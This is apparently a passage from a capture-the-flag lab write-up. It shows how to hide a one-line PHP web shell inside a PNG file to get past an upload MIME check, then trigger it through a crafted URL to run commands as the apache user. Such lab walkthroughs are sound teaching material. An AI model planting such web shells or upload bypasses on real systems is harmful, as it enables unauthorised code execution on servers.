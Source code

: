 Note that I added the `.php` string into the filename when downloading. This is required to get code execution. I opened the image file in `vim` and added some PHP code about 5 lines down in the file. I had to try a couple of times, putting the PHP code in different places in the files.

```none
<?php system($_REQUEST["cmd"]) ?>
```

Since we need to pass a mime type check when uploading the file, it makes sense to check that the modified file is still being reported as an image.

```none
└─$ file hacktricks.php.png 
hacktricks.php.png: PNG image data, 256 x 256, 8-bit/color RGBA, non-interlaced
```

Now what we have the `hacktricks.php.png` ready to go, we can upload the file without intercepting and modifying the request - as the image will bypass all upload restrictions. After the upload is done, we can view it on the `photos.php` page. 

![80 Home](screenshots/80_uploaded_image.png)

To get the code to execute, we need to load the actual file, and not just the image that is displayed in the photos page. Luckily we can see the uploaded file name, as displayed above. So we can craft the URL for the file and add a parameter for `cmd`, such as `id`.

```none
http://10.10.10.146/uploads/10_10_14_9.php.png?cmd=id
```

Success! Code execution! We can see the `id` command was run as the `apache` user.

